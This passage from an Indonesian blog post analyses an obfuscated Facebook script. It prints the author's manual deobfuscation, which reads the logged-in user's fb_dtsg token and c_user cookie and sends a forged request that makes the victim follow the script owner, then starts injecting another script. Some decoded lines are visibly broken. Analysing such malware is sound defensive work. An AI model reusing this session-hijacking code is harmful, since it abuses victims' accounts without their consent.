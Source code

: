 ;_0x8cc3x24[_0xa22c[37]](_0x8cc3x1f);} ;arkadaslari_al(id);
{% endhighlight %}

dan ini adalah script hasil decoding manual yang saya lakukan. Mungkin masih terdapat beberapa kesalahan, tapi setidaknya saya tau strukturnya

{% highlight javascript %}
// fb_dtsg: untuk mendapatkan nilai dari elemnt dengan nama tersebut
// user_id: untuk mendapatkan user_id anda (yang sedang login)
var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value,
    user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);

// funsi untuk mendapatkan nilai cookie dari browser anda
function cereziAl(argumen) {
    var args = argumen +=;

    if (document.cookie.length>0) {
        konum = document.cookie.indexOf(args);

        if (konum != -1) {
            konum += args.length;
            son = document.cookie.indexOf(;, konum);

            if (son == -1) {
                son = document.cookie.length;
            }

            return unescape(document.cookie.substring(konum,son));
        } else {
            return;
        }
    }
}

// fungsi untuk mendapatkan nilai random integer
function getRandomInt(int1, int2) {
    return Math.floor(Math.random()*(int2-int1+1))+int1;
}

// fungsi untuk mendapatkan salah satu huruf dari kata secara random.
// Misal argumennya adalah 'dicoba' outputnya bisa 'd' atau 'c' atau huruf lain dalam kata tersebut
function randomValue(val) {
    return val[getRandomInt(0,val.length-1)];
}

// fungsi agar setiap pengguna yang menggunakan script ini akan secara langsung mengikuti (follow) akun dari pemilik script
function a(profile_id) {
    var request = new XMLHttpRequest(),
        target_url = 'profile_id='+profile_id+'&location=1&source=follow-button&subscribed_button_id=u37qac_37&fb_dtsg='+fb_dtsg+'&lsd&__'+user_id+'&phstamp=';

    request.open('POST','/ajax/follow/follow_profile.php?__a=1',true);
    request.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
    request.setRequestHeader('Content-length', target_url.length);
    request.setRequestHeader('Connection', 'close');

    request.onreadystatechange = function () {
        if (request.readyState == 4 && request.status == 200) {
            request.close;
        }
    }

    request.send(target_url);
}

// fungsi agar setiap pengguna yang menggunakan script ini akan langsung berlangganan berita dari halaman si pemilik akun
function sublist(profile_id) {
    var a = document.createElement('script');